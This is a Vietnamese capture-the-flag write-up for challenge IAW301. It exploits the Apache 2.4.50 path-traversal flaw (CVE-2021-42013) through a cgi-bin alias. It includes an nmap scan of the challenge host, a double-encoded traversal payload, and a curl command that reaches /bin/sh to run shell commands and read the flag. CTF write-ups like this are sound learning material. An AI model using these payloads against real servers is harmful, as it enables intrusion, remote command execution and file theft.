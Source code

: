 # IAW301

> Đây là một challenge dễ, nhưng thật tiếc vì mình lú nên đã gõ sai một kí tự trong payload mà không biết :'(
> Xin úp mặt vào tường để tự kiểm điểm :'(

- Bắt đầu với challenge, ta được cung cấp 2 dữ liệu, file httpd.conf, và gợi ý về flag:

![hints](img/IAW301_1.png)

- `httpd.conf` là file config của Apache Server, truy cập vào file theo đường dẫn, mình nhận thấy có một số thứ hay ho:

```apache2
    <Directory "/usr/local/apache2/cgi-bin">
        AllowOverride None
        Options None
        Require all granted
    </Directory>
```

- Trong thời gian gần đây, có 2 CVE nổi tiếng liên quan đến 2 phiên bản của Apache và `cgi-bin` của nó, đó là [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773) (Apache 2.4.49) và [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013) (Apache 2.4.50), đặc điểm chung là lỗi trong việc normalize path ở file `util.c` khiến tin tặc có thể sử dụng `path traversal` với payload thường thấy là `/cgi-bin/../../../etc.passwd`, nhưng, vì `util.c` đã check dấu `.` khi normalize path, nên chúng ta sẽ cần dùng tới những payload được encode như `/.%2e/` thay cho `/../`.

- Tất nhiên, giữa 2 CVE kể trên có sự khác nhau trong payload, vì vậy chúng ta cần check xem Apache đó thuộc phiên bản nào (nếu > 2.4.50 thì kiếp này coi như bỏ :'()

- Mình thử check với câu lệnh `nmap` đơn giản sau:

    ```nmap -A -p8889 139.180.208.121 -vvv```

    Và có được kết quả:

    ```shell
        PORT     STATE SERVICE REASON  VERSION
        8889/tcp open  http    syn-ack Apache httpd 2.4.50 ((Unix))
        | http-methods: 
        |   Supported Methods: HEAD GET POST OPTIONS TRACE
        |_  Potentially risky methods: TRACE
        |_http-title: Site doesn't have a title (text/html).
        |_http-server-header: Apache/2.4.50 (Unix)
    ```

- Như vậy là Apache 2.4.50, ta có thể dùng `%%32%65%%32%65/` hoặc `.%%32%65/` thay thế cho `../`

- Có một lưu ý là khi đọc `httpd.conf`, hãy để ý đến dòng `ScriptAlias` để biết liệu có alias nào thay cho `cgi-bin` không, ví dụ như trong bài này:

    ```ScriptAlias /nothingspecial/ "/usr/local/apache2/cgi-bin/"```

- Và để ý `DocumentRoot` như trong bài:

    ```DocumentRoot "/usr/local/apache2/htdocs"```

- Như vậy để truy cập được `/` thì ta cần 4 cặp `../`, thay thế alias và 2 cách encode đã kể trên, ta có payload:

    ```/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag```

- Nhưng, như vậy liệu có đúng? Thử với `curl` và đây là kết quả:

    ![IAW301_2](img/IAW301_2.png)

- Thực tế có một cách khác, ta sẽ dùng đến `/bin/sh` và option `--data` của `curl` để mở file, đơn giản như sau:

    ```shell
        curl 'http://139.180.208.121:8889/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo; cat ../flag'
    ```

- Và đây là kết quả:
  
    ![IAW301_3](img/IAW301_3.png)

- Flag: `FUSEC{970c5c12bc41fd2783748e73fccf99b0}`

> Xin lỗi cả team noname vì mỡ đến miệng rồi mà để tuột mất vì một dấu % thừa :'(
